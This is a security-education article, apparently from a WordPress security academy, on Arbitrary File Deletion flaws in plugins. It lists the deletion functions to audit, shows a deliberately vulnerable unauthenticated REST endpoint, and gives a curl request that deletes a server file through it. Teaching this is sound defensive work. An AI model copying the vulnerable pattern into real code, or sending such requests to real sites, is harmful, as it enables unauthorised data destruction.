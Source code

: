 ```yaml
---
title: Arbitrary File Deletion
head:
    - tag: title
      content: Learn about Arbitrary File Deletion
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Deletion on WordPress. This includes improper file or directory deletion handling inside of the plugin/theme which can be used to delete arbitrary local files and directories inside of the server.

<LinkCard
  title="Learn how to secure your code against Arbitrary File Deletion"
  href="/academy/wordpress/securing-code/arbitrary-file-deletion/"
/>

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Deletion vulnerability:

- PHP related
    - [`unlink`](https://www.php.net/manual/en/function.unlink.php)
    - [`rmdir`](https://www.php.net/manual/en/function.rmdir.php)

- WordPress related
    - [`wp_delete_file`](https://developer.wordpress.org/reference/functions/wp_delete_file/)
    - [`wp_delete_file_from_directory`](https://developer.wordpress.org/reference/functions/wp_delete_file_from_directory/)
    - [`WP_Filesystem_Direct::delete`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/delete/)
    - [`WP_Filesystem_Direct::rmdir`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/rmdir/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("init", "rest_init_setup");

function rest_init_setup(){
    register_rest_route( "myplugin/v1", '/deletemedia/', array(
        'methods'                   =>  "POST",
        'callback'                  =>  'delete_media_upload',
        'permission_callback' => '__return_true',
    ) );
}

function delete_media_upload($request){
    $args = json_decode($request->get_body(),true);
    $data = array('status'=>false);
    if(!empty($args['media']) ){
        wp_delete_file( $args['media']['file'] );
        $data = array('status'=>true);
    }
    return new WP_REST_Response( $data, 200 );
}
```

To exploit this, any unauthenticated user needs to perform a POST request to the `/wp-json/myplugin/v1/deletemedia` endpoint specifying the needed parameter to trigger the `wp_delete_file` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/deletemedia -d '{"media":{"file":"<WORDPRESS_BASE_DIRECTORY>/license.txt"}}' -H 'Content-Type: application/json'
```
